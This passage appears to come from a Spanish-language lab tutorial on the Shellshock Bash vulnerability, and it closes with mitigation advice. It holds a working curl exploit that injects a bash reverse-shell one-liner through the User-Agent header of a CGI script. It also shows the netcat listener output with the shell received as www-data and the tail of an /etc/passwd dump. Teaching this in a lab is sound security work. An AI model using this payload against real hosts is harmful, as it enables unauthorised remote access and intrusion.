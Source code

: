 ```bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:112:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
kim:x:1000:1000:,,,:/home/kim:/bin/bash
```

### Exploitation to Reverse Shell Access

Una vez que se ha confirmado la vulnerabilidad, podemos obtener acceso a shell reverso de muchas maneras. En este ejemplo, usamos un simple one-liner de Bash y obtenemos una devolución de llamada en nuestro listener de Netcat.



```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

A partir de aquí, podríamos comenzar a buscar datos sensibles o intentar escalar privilegios. Durante una prueba de penetración de red, podríamos intentar usar este host para pivotar más en la red interna.



```bash
sudo nc -lvnp 7777

listening on [any] 7777 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.204.231] 52840
bash: cannot set terminal process group (938): Inappropriate ioctl for device
bash: no job control in this shell
www-data@htb:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@htb:/usr/lib/cgi-bin$
```

---

## Mitigation

Este [blog post](https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability) contiene consejos útiles para mitigar la vulnerabilidad Shellshock. La forma más rápida de remediar la vulnerabilidad es actualizar la versión de Bash en el sistema afectado. Esto puede ser más complicado en sistemas Ubuntu/Debian de fin de vida útil, por lo que un administrador de sistemas puede necesitar primero actualizar el gestor de paquetes. Con ciertos sistemas (por ejemplo, dispositivos IoT que usan CGI), actualizar puede no ser posible. En estos casos, sería mejor primero asegurarse de que el sistema no esté expuesto a Internet y luego evaluar si el host puede ser dado de baja. Si es un host crítico y la organización elige aceptar el riesgo, una solución temporal podría ser aislar el host en la red interna lo mejor posible. Tenga en cuenta que esto es solo poner una curita en una herida grande, y la mejor acción sería actualizar o desconectar el host.

---
